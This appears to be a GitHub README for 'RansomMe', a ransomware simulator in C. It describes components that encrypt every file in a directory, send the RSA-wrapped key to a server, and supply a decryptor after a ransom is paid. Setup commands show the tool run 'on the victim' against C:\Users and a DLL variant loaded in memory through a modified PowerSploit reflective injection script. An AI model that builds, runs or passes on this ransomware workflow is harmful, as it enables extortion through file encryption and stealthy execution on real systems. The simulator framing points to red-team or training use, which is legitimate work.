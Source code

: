 # RansomMe

A simple ransomware simulator using the WinCrypt API in C. The full project is made of several parts:

- **RansomMe.exe** -- It gets as input parameters a target directory, an extension and a server name. It will encrypt all files in the target directory using AES256, appending the extension to all the encrypted files and will encrypt (RSA2048 public key) and send the symmetric key to the server.
- **Server.py** -- It will receive the encrypted key, parse it and decrypt it using the RSA2048 private key. The code includes a parsing function to convert the WinCrypt-generated private key into a readable format for the python library.
- **Decryptor.exe** -- This is the decryptor. It is supposed to be realeased, together with the decrypted symmetric key, to the victim when they hypothetically make the ransom payment. It accepts a target directory, extension and a path to the key as parameters.
- **RansomMeDLL.dll** -- A DLL version that can be used with Invoke-ReflectivePEInjection.
- **Invoke-ReflectivePEInjection.ps1** -- I modified the script from PowerSploit to include a parameter when calling VoidFunc (injecting in the current process only).
- **KeyGenerator.exe** -- An auxiliary C application to generate an RSA2048 public/private key pair compatible with the WinCrypt API.

# Set me up

Begin generating a public/private key pair:
```
.\KeyGenerator.exe
```
Then copy the private key to the server folder (the name must be `private.pem`) and run the server. The server can be run on Linux too:
```
mv .\private_key.pem ..\Server\private.pem
```
Install the python requirements like the cryptography:
```
pip install cryptography
```
Run the server:
```
.\server.py
```
Copy the public key into the `crypto.c` file and compile the code:
```
// The public key is hardcoded in PEM format, this function decodes it and import it
BOOL LoadPublicKey(HCRYPTPROV* hProv, HCRYPTKEY* hKey) {
    // Public key in PEM format
/* COPY YOUR PUBLIC KEY HERE */
    static const char* b64_pubKey = "BgIAAACkAABSU0ExAAgAAAEAAQCxwjeWWlr4rXPoNPpQ+GbS2dT8HNM1qpGKo6FOsmLfEf0Lzb8oQdaqgII+ZG+ZjGQAK8pe0M4"
        "wb/dSlS1ZRphehyw/JnE3IkJO197OZMzYzi98WnZgSZEGs7jAY0mPhnrFytOatuL4BcxmtGd6MCZMscaMYwbwkNSOeDhbGx0z5p"
        "LeIAi0Z3zGD9KntVa4pL8FG4f/4KH7I7GPZKpAI3mfzZF08C3DupbO4xTS3witFVXFFclnx7kJDdrLoKBJBj+rVgrtr55kSrcsF"
        "pntYWjG9GAyelhSrkQhJozdsOSJ7dNpDo8KBcSkT25qz8P06Vy4pwWQWu/ID64Y6EgnetvE";

    // Decode Base64
    BYTE* decodedData = NULL;
    DWORD decodedDataLen = 0;
```
Now execute the RansomMe.exe on the victim (.enc and 127.0.0.1 are the default values for extension and server):
```
.\RansomMe.exe C:\Users .enc 127.0.0.1
```
You can run the DLL in memory like this (it will use .enc and 127.0.0.1 as default extension and server, you can change this in the source code):
```
$PEBytes = [IO.File]::ReadAllBytes('C:\Temp\RansomMeDLL.dll')
Invoke-ReflectivePEInjection -PEBytes $PEBytes -FuncReturnType Param -ExeArgs "C:\Users"
```
If you want to decrypt, just copy the Decryptor.exe and the key.bin (from the server folder) into the victim and run:
```
.\Decryptor.exe C:\Users .enc .\key.bin
```
Make sure you do not modify any file that is encrypted and use the same extension when decrypting. The decryptor will only attempt to decrypt files with that extension.
